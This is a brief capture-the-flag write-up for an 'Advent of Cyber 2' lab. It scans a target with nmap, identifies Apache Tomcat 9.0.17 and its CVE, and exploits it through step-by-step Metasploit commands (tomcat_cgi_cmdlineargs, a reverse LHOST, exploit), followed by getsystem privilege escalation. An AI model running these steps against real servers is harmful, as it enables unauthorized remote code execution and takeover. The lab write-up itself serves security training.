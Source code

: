 # [Network] Metasploit

IP: 10.10.89.120

Advent of Cyber 2:

### What is the version?
- I ran 2 nmap scan, `nmap -Pn` and `nmap -Pn -sVC -vv`
- Webserver running on 8080 version `9.0.17`

### What is the CVE?
- https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-280286/year-2019/Apache-Tomcat-9.0.17.html
- Obviously it's the higher risk one ;)

### Eploit the thing, and grab the flag :)
- https://www.rapid7.com/db/modules/exploit/windows/http/tomcat_cgi_cmdlineargs/
- From the info you'll that the cgi-bin exploit is at `<ip>/cgi-bin/elfwhacker.bat`
- `sudo -i`
- `msfconsole`
- `msf > use exploit/windows/http/tomcat_cgi_cmdlineargs `
- `msf > set LHOST <our PC>`
- `msf > set RHOST <victim>`
- `msf exploit(tomcat_cgi_cmdlineargs) > show targets`
- `msf exploit(tomcat_cgi_cmdlineargs) > set TARGET < target-id >`
- `msf exploit(tomcat_cgi_cmdlineargs) > set TARGETURI http://10.10.89.120/cgi-bin/elfwhacker.bat`
- `msf exploit(tomcat_cgi_cmdlineargs) > show options`
- `msf exploit(tomcat_cgi_cmdlineargs) > exploit`
- `ls; cat flag1.txt`

### Privilege Escalation
- `getsystem` in metasploit!!! 
- https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/
